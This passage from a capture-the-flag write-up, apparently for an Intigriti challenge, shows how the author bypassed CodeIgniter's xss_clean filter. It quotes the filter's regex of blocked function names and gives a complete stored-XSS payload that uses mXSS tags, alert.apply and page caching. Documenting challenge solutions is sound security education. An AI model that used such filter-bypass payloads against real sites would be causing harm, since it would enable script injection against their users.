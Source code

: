 `<svg/onload>` survives inside an attribute untouched thankfully, the last problem is calling `alert`. The two obvious choices are redacted by *another* section of `xss_clean`:

```php
...
		/* For example:   eval('some code')

         * Becomes: eval&#40;'some code'&#41;

         */
		$str = preg_replace(
			'#(alert|prompt|confirm|cmd|passthru|eval|exec|expression|system|fopen|fsockopen|file|file_get_contents|readfile|unlink)(\s*)\((.*?)\)#si',
			'\\1\\2&#40;\\3&#41;',
			$str
		);

		// Same thing, but for "tag functions" (e.g. eval`some code`)
		// See https://github.com/bcit-ci/CodeIgniter/issues/5420
		$str = preg_replace(
			'#(alert|prompt|confirm|cmd|passthru|eval|exec|expression|system|fopen|fsockopen|file|file_get_contents|readfile|unlink)(\s*)`(.*?)`#si',
			'\\1\\2&#96;\\3&#96;',
			$str
		);

...
```

I got around this using `alert.apply(null,[document.domain])`.

Putting this together I had the final payload `ENDCI-- ><xmp><p id='</xmp><svg/onload=alert.apply(null,[document.domain])>'></xmp>`. I set the parameter, visited once to set the cache entry, and after a few seconds reloaded the page and was presented with an alert.

[![](/assets/image/attachments/2024-12-18-Intigriti-1224-Challenge-gg.png)](/assets/image/attachments/2024-12-18-Intigriti-1224-Challenge-gg.png){:.glightbox}

## Resources
- https://codeigniter.com/userguide3/general/caching.html#web-page-caching
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#consuming-tags
- https://sonarsource.github.io/mxss-cheatsheet/
- https://livedom.bentkowski.info/